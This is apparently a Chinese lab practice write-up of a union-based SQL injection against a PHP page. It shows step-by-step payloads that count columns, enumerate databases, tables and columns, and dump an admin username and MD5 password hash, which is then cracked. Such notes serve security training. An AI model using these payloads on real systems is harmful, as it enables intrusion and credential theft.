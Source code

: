 -_-\.内网靶场练习：

构造 “http://..30.11:90/sec_show.php?cid=1&aid=1 ”判断注入点 id=-1 报错，有注入 构造“http://..30.11:90/sec_show.php?cid=1&aid=1 order by 21 ” order by 猜字段，一个个试出来，order by 22 报错 order by 21成功 共有21个字段 http://..30.11:90/sec_show.php?cid=1&aid=-1 union select 1,2,@@hostname,version(),5,user(),7,8,9,10,11,12,13,14,15,16,17,18,19,20 查看目标电脑用户名:@@hostname SQLInjection1 查看版本:version() 5.6.12-log 查询当前用户:user() root@127.0.0.1 数据库：database() sqlinj_1

" cid=1&aid=-1 union select 1,2,3,4,5,@@datadir,7,8,9,10,11,12,13,14,15,16,17,18,19,20 -- " 查看当前目录:@@datadir c:\wamp\bin\mysql\mysql5.6.12\data\

构造“cid=1&aid=-1%20union%20select%201,2,3,4,5,group_concat(schema_name),7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20information_schema.schemata” 发现页面上出现3 4 6 字段，说明这三处都可以进行注入：

通过注入查看sqlinj_1库里面的表 cid=1&aid=-1%20union%20select%201,2,3,table_name,5,table_schema,7,8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.tables where table_schema='sqlinj_1'-- 调用上面查询出sqlinj_1数据库查出库中wit_admin表

查看users表里面的列: "cid=1&aid=-1%20union%20select%201,2,3,table_name,5,column_name,7,8,9,10,11,12,13,14,15,16,17,18,19,20 from information_schema.columns where table_schema='sqlinj_1' and table_name='wit_admin' --" 获取列名为adm_id

盲猜字段 adm_admin adm_pass cid=1&aid=-1%20union%20select%201,2,3,adm_user,5,adm_pass,7,8,9,10,11,12,13,14,15,16,17,18,19,20%20from%20sqlinj_1.wit_admin --

账号：admin 密码：e10adc3949ba59abbe56e057f20f883e ----md5----> 123456
